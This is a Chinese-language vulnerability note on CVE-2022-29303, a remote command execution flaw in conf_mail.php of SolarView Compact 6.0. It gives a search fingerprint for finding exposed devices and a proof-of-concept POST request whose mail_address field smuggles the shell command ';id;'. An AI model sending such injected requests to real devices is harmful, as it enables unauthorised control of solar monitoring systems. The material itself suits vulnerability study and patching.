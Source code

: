 # SolarView Compact conf_mail.php 远程命令执行漏洞 CVE-2022-29303

## 漏洞描述

SolarView Compact conf_mail.php 存在远程命令执行漏洞，攻击者通过构造特殊的请求，可以获取服务器权限

## 漏洞影响

 <a-checkbox checked>SolarView Compact 6.0</a-checkbox></br>

## 网络测绘

 <a-checkbox checked>body="SolarView Compact" && title=="Top"</a-checkbox></br>

## 漏洞复现

主页面

![img](../../../.vuepress/public/img/1654151463845-e856185f-ea32-4bbc-b9e6-39bf569c8f72.png)

验证POC

```php
POST /conf_mail.php
  
mail_address=%3Bid%3B&button=%83%81%81%5B%83%8B%91%97%90M 
```

![img](../../../.vuepress/public/img/1654151685879-7d381c6a-c69d-4837-b57f-691e6303557f.png)